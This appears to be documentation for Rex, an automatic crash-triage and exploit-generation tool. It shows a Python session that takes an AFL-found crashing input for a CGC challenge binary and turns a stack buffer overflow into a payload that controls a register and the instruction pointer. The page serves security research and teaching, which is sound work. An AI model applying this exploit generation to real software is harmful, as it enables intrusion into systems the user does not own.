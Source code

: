 ### Rex

At the moment rex offers two main features, crash triaging and exploitation for certain kinds of crashes.

In the example below we take a crashing input for `0b32aa01_01` discovered by AFL. The vulnerability is a simple buffer overflow on the stack.

Exploit objects can take an exploitable crashing input and will attempt to turn it into an exploit which can set
set every register and leak data from an arbitrary address.

```
>>> crash = rex.Crash("../binaries/cgc_scored_event_1/cgc/0b32aa01_01", "\x05\x00\xff\xff\x80\xff\xff\xff\x80\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xff\xff\x80\xf1\xf1\xf1\xeb\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\x00\xde\x7f\xff\x80\xff\xff\xff\x80\x0f\xff\xff\xff~\xf3\xff\xff\xff\xff\x7f\xff\xff\x80\xff\xff\xfe\xff\t\xfe\xfe\xfe\xfe\xfe\nWelc\xfeme to(Palindrome Fiwder\n\n\xff\xff\xff\xff\x80\xff\xff\xe8\x80\x0f\xff\xff\xff\x7f#\n")
>>> crash.exploitable()
True
>>> exploit = rex.Exploit(crash)
>>> exploit.initialize()
>>> # create an input which populates eax with 0x41414141 and crashes with eip at 0x58585858
>>> exploit.set_register("ebx", 0x41414141, final_ip=0x58585858) 
'\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\x00\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x8e\x81\x04\x08\x00\x00\x00\x00\x84\xc5EIAAAAXXXX\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
